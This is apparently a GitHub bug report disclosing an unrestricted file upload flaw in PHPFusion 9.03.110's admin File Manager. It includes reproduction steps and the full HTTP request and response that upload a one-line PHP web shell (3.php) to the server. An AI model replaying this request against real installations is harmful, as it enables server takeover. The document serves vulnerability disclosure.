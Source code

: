 **Describe the bug**
File Manager function in admin panel does not filter all of php extensions like ".php, .php7, .phtml, .php5, ...", The attacker can upload malicious file and execute code in server

**Version**

PHPFusion version: PHPFusion 9.03.110

**To Reproduce**

Steps to reproduce the behavior:
1. Go to administrator panel and click on FileManager function
2. Click on Upload file button, then choose .php file
3. The path of file will return in response
4. Finally, access and execute code on server

**Screenshots**

![image](https://user-images.githubusercontent.com/54875703/130697945-e462891a-175b-461e-8dea-6ad00df8e644.png)

Request and response of function
![image](https://user-images.githubusercontent.com/54875703/130698038-2c82a193-24b6-4a46-9aa6-9ea874846b9c.png)

Execute code on server:
![image](https://user-images.githubusercontent.com/54875703/130698099-0e37c825-4940-418b-815a-3b044a0faae2.png)

**Additional context**

Although PHPFusion have 2 step verification for administrator panel, but if cookie of admin users were stolen, the attacker can POST request upload file with that cookie and execute code on server


###REQUEST:

```
POST /includes/elFinder/php/connector.php?aid=e5c19545a88a5d4d HTTP/1.1
Host: 172.16.0.12:5554
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3950035332713980620819721882
Content-Length: 706
Origin: http://172.16.0.12:5554
Connection: close
Referer: http://172.16.0.12:5554/administration/file_manager.php?aid=e5c19545a88a5d4d
Cookie: PHPSESSID=qhclrgdoah7rbv9l34fvj07h00; fusiony1dli_session=jjfp12qmql4s64caf8ob6eld2t; fusiony1dli_visited=yes; usertbl_results=user_joined%2Cuser_lastvisit%2Cuser_groups; usertbl_status=0; fusiony1dli_lastvisit=1629684275; fusiony1dli_user=1.1630015266.b9cf1c8d19231964f87b60503eb37b6cd23047438f61fe3b750f0d371a242ec6; fusiony1dli_admin=1.1630015307.2c32968c83f8c4c0224d5a0d4a0de496d62b98325c2754a38c3451087161671e; fusionc4q8w_lastvisit=1629839491; fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; fusionc4q8w_visited=yes; fusionc4q8w_user=1.1630015933.97acae239cf33f2741f9b3537eb071fcd6b9e8c560188e44b734cda6c4957cdd; fusionc4q8w_admin=1.1630015939.a2f2f7349b5f7f589227e2cba22a9361986acb754ff4468e1a3a48fad223c176

-----------------------------3950035332713980620819721882
Content-Disposition: form-data; name="reqid"

17b7a38fbae2eb
-----------------------------3950035332713980620819721882
Content-Disposition: form-data; name="cmd"

upload
-----------------------------3950035332713980620819721882
Content-Disposition: form-data; name="target"

l1_Lw
-----------------------------3950035332713980620819721882
Content-Disposition: form-data; name="upload[]"; filename="3.php"
Content-Type: text/php

<?=`$_GET[0]`?>

-----------------------------3950035332713980620819721882
Content-Disposition: form-data; name="mtime[]"

1625501319
-----------------------------3950035332713980620819721882--
```

###RESPONSE:
```
HTTP/1.1 200 OK
Date: Tue, 24 Aug 2021 22:23:36 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
X-Powered-By: PHPFusion 9.03.110
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Set-Cookie: fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; expires=Thu, 26-Aug-2021 22:23:36 GMT; Max-Age=172800; path=/
Content-Length: 1090
X-Content-Type-Options: nosniff
Connection: close
Content-Type: application/json; charset=utf-8

{"added":[{"isowner":false,"ts":1629843816,"mime":"text\/x-php","read":1,"write":1,"size":"16","hash":"l1_My5waHA","name":"3.php","phash":"l1_Lw","url":"http:\/\/172.16.0.12:5554\/images\/3.php"}],"removed":["l1_My5waHA"],"changed":[{"isowner":false,"ts":1614754682,"mime":"directory","read":1,"write":1,"size":0,"hash":"l1_Lw","name":"root_images","rootRev":"","options":{"path":"","url":"","tmbUrl":"","disabled":[],"separator":"\\","copyOverwrite":1,"uploadOverwrite":1,"uploadMaxSize":9223372036854775807,"uploadMaxConn":3,"uploadMime":{"firstOrder":"deny","allow":[],"deny":[]},"dispInlineRegex":"^(?:(?:video|audio)|image\/(?!.+\\+xml)|application\/(?:ogg|x-mpegURL|dash\\+xml)|(?:text\/plain|application\/pdf)$)","jpgQuality":100,"archivers":{"create":["application\/zip"],"extract":["application\/zip"],"createext":{"application\/zip":"zip"}},"uiCmdMap":[],"syncChkAsTs":1,"syncMinMs":0,"i18nFolderName":0,"tmbCrop":1,"tmbReqCustomData":false,"substituteImg":true,"onetimeUrl":true,"csscls":"elfinder-navbar-root-local"},"volumeid":"l1_","locked":1,"dirs":1,"isroot":1,"phash":""}]}
```
